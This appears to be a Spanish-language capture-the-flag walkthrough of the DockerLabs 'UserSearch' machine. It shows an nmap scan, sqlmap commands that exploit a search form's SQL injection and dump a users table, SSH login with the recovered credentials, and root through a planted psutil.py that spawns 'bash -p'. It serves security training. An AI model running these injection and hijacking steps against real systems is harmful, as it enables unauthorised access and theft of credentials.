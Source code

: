 Máquina "UserSearch" de [DockerLabs](https://dockerlabs.es)

Autor: [kvzlx](https://www.youtube.com/@kvzlx)

Dificultad: Medio

![Usersearch](images/usersearch/img/DockerLabs.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv 172.18.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Dec 13 22:25:17 2024 as: nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv -oN escaneo.txt 172.18.0.2
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-12-13 22:25:18 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP8i149J/z+cyzaGJoDVXl5AHyo4BO3C5DzkkWxzNaB77Kpz4si3PNs2uorTw1yztfmGmCA8NIWeW+TAybx57ok=
|   256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINpY2NxmXtsHt71QdxZpHfmnjsqGymscWq6lf4kbIkVk
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: User Search
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 13 22:25:27 2024 -- 1 IP address (1 host up) scanned in 9.11 seconds
```

Vemos dos puertos abiertos:

• `Puerto 22: OpenSSH 9.2p1`

• `Puerto 80: Apache httpd 2.4.59`

y nos enfrentamos a una maquina linux debian.

Si vamos a la página en el puerto 80, veremos un formulario que nos permite buscar usuarios, esto nos da la idea de que puede haber una base de datos mysql por detras. Si tiramos directamente `sqlmap` para buscar una inyeccion sql, veremos que efectivamente es vulnerable, por lo que procedemos a listar la base de datos:

```css
sqlmap -u "http://172.18.0.2" --level 5 --risk 3 --batch --forms --dbs
```

y vemos que hay dos:

`information_schema`

`testdb`

A nosotros nos interesa la base de datos "testdb", por lo que continuaremos listando las tablas:

```css
sqlmap -u "http://172.18.0.2" --level 5 --risk 3 --batch --forms -D testdb --tables
```

una vez ejecutado, veremos que hay una tabla llamada "users", por lo que veremos todo lo que contiene de la siguiente manera:

```css
sqlmap -u "http://172.18.0.2" --level 5 --risk 3 --batch --forms -D testdb -T users --dump
```

```css
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | ************* | admin    |
| 2  | ************* | user1    |
| 3  | ************* | kvzlx    |
+----+---------------+----------+
```

# Intrusión

Continuamos probando las credenciales obtenidas en el ssh, y vemos que las correctas son las del usuario "kvzlx", por lo que nos conectamos (`ssh kvzlx@172.18.0.2`).

# Escalada de privilegios

### Kvzlx

Estando dentro, listamos los archivos y vemos que hay un código de python y si ejecutamos `sudo -l` veremos que lo podemos ejecutar como root. Si lo leemos veremos lo siguiente:

```css
import psutil


def print_virtual_memory():
    vm = psutil.virtual_memory()
    print(f"Total: {vm.total} Available: {vm.available}")


if __name__ == "__main__":
    print_virtual_memory()
```

Como vemos importa la libreria "psutil", por lo que podemos intuir que trata de un `python library hijacking`. Para realizarlo, debemos crear un archivo en el mismo directorio llamado "psutil.py", y dentro poner el siguiente contenido:

```css
import os

os.system("bash -p")
```

Luego ejecutamos el script de python normalmente pero nos dará una shell como root al momento.

Otra manera es borrar el script "system_info.py", ya que aun que no nos pertenezca, se encuentra en nuestro home, por lo que podemos borrarlo igual y crear otro.

## Root

![Root](images/usersearch/img/root.png)